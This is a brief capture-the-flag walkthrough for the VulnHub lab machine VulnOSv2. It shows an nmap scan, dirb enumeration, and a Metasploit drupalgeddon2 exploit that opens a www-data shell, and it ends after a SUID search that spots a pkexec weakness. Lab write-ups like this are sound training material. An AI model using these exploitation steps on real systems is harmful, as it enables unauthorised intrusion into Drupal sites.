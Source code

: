 

# VulnOSv2 Walkthrough 

**VulnHub Link:** [VulnOSv2](https://www.vulnhub.com/entry/vulnos-2,147/)
**Difficulty:** Easy
**Release Date:** 17 May 2016

## 1.Reconnaissance
```bash
nmap -A -O -T4 -P -sV 192.168.100.178
```


## 2.Web Enumeration

```bash
dirb http://192.168.100.178
```

we found out that drupal run in web

```bash
msfconsole -q
use unix/webapp/drupal_drupalgeddon2
set rhosts <attack machine ip>
set TARGETURI /jabc/
run
```

www-data session opened

find / -perm /4000 2>/dev/null

observe that pkexec vuln exist in this machine


